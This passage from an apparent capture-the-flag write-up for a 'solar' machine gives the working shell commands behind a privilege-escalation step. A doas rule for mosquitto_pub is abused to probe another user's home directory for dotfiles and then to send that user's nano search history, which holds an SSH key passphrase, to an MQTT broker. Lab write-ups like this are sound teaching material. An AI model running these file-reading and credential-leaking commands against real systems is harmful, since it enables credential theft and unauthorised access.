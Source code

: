 ```bash
www-data@solar:/tmp$ curl https://wiki.debian.org/DotFilesList 2> /dev/null | grep -oP '(?<=\<tt class="backtick">).*?(?=</tt>)' | sort | uniq  > dotfiles.txt
```

and we check if there is any file from the list in lenam's home directory that we can access.

```bash
www-data@solar:/tmp$ cat ./dotfiles.txt | tr '\n' '\0' | xargs -0 -I {} -P 50 bash -c '
    result=$(doas -u lenam /usr/bin/mosquitto_pub -f "/home/lenam/.local/nano/{}" 2>&1 | wc -l)
    if [ "$result" -eq 3 ]; then
        echo "** Folder {} $(ls -dlah {} 2>/dev/null)"
    elif [ "$result" -eq 97 ]; then
        echo "** File {} $(ls -lah {} 2>/dev/null)"
    fi
'
** File .bash_logout 
** File .bash_history 
** File .bashrc 
** Folder .gnupg/ 
** File .lesshst 
** Folder .local/
** File .nanorc 
** File .ssh/authorized_keys
```

We found the `.gnupg/` and `.local/` directories, where we can run our improvised scanner again. We also used other dictionaries found online, modifying them as needed.

- https://github.com/bhavesh-pardhi/Wordlist-Hub/blob/main/WordLists/dotfiles.txt
- https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt 

We found the passphrase for lenam's `id_ed25519` key leaked in the nano editor's search history file at `/home/lenam/.local/share/nano/search_history`.

We sent it to the MQTT server:

```bash
doas -u lenam /usr/bin/mosquitto_pub -L mqtt://5up3r:bloods@localhost:1883/filtrate -f /home/lenam/.local/share/nano/search_history
```

![Leaked Passphrase](../../assets/images/solar/image-15.png)
